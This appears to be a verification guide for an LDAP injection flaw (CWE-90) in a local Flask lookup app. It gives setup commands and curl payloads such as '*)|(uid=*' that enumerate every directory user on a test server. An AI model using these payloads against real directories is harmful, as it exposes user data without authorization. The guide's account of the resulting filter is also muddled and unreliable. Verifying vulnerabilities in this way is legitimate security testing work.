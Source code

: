 
# LDAP Injection Vulnerability Verification Guide

## CWE-90: Improper Neutralization of Special Elements used in an LDAP Query ('LDAP Injection')

**Location:**  
- File: `src/app.py`  
- Function: `search()`  
- Approximate Line: 13 (the line constructing `ldap_filter = f"(uid={username})"`)

---

## Step-by-Step Verification Steps

### 1. **Install the dependencies**

If you haven't already:
```bash
cd projects/directory_lookup_tool
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

### 2. **Setup a test LDAP server**

You can use [osixia/docker-openldap](https://github.com/osixia/docker-openldap) for testing:

```bash
docker run --name test-openldap -p 389:389 -e LDAP_ORGANISATION="Example Inc." -e LDAP_DOMAIN="example.com" -e LDAP_ADMIN_PASSWORD="admin" -d osixia/openldap:1.5.0
```

Populate it with some data (see LDAP server documentation for adding test users).

### 3. **Start the Flask application**

```bash
python src/app.py
```

### 4. **Normal Usage Test**

Query for an existing user:

```bash
curl 'http://127.0.0.1:5000/search?username=alice'
```

You should get results for the user (if that user exists in the directory).

---

### 5. **Trigger the Vulnerability (LDAP Injection)**

Try to bypass the intended username filter and enumerate all users.  
Notice how the raw user input is inserted into the LDAP filter, allowing filter manipulation.

#### **Attack input:**
You can use a wildcard to retrieve all users, e.g.:

```bash
curl 'http://127.0.0.1:5000/search?username=*)%28uid=*'
```

This results in the following filter on the server:

```
(uid=*) (uid=*)
```
(but the actual injected filter becomes `(uid=*) (uid=*)`, which will likely be interpreted as always true and may return multiple users depending on the LDAP server's parser)

Alternatively, you can use:

```bash
curl 'http://127.0.0.1:5000/search?username=*)|(uid=*'
```

#### **Expected result:**
The response will include entries for _all_ users, not just the intended user, demonstrating LDAP injection is possible due to unsanitized input.

---

### 6. **Stop the LDAP server (optional)**

```bash
docker stop test-openldap && docker rm test-openldap
```

---

## CWE Reference

- [CWE-90: Improper Neutralization of Special Elements used in an LDAP Query ('LDAP Injection')](https://cwe.mitre.org/data/definitions/90.html)

